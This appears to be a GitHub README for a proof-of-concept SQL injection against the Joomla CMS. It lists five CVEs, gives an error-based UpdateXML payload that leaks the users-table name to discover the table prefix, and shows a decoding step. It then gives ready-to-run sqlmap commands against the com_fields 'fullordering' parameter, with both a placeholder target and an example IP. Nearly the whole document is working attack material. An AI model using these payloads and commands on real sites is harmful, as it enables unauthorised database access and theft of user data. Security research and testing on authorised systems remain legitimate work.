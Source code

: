 # Joomla-SQLinjection PoC

1. CVE-2020-10243

2. CVE-2019-19846

3. CVE-2018-8045

4. CVE-2018-6376

5. CVE-2017-8917

# Payload to detect prefix table
## Step 1: Get hexa value
*UpdateXML(2, concat(0x3a,(SELECT HEX(MID(TABLE_NAME,1,16)) FROM information_schema.tables WHERE TABLE_NAME LIKE 0x257573657273 LIMIT 1,1), 0x3a), 1)*
## Step 2: Convert hexa to ASCII
+) Linux command: echo "hexa value" | xxd -r -p

+) Link: https://www.rapidtables.com/convert/number/hex-to-ascii.html
## Detecting:
![image](https://user-images.githubusercontent.com/24661746/77494259-ddd35680-6e77-11ea-8331-106c89b48f7c.png)
## Sqlmap:
sqlmap -u "[your taget]/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=*" --dbms=mysql --technique=E --dbs
## Example
sqlmap -u "http://192.168.119.128/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=*" --dbms=mysql --technique=E --dbs

Reference:
1. https://github.com/HoangKien1020/CVE-2020-10243
2. https://xz.aliyun.com/t/6990
